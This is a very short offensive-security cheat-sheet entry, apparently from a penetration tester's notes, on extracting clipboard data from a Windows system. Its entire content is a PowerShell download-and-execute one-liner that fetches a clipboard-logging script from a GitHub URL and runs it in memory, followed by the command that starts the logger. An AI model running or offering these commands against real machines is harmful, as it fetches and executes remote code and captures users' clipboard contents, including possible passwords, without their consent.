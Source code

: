 # Extracting Clipboard data Windows

* script to get clipboard data from a windows system

```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
```

```powershell-session
Invoke-ClipboardLogger
```
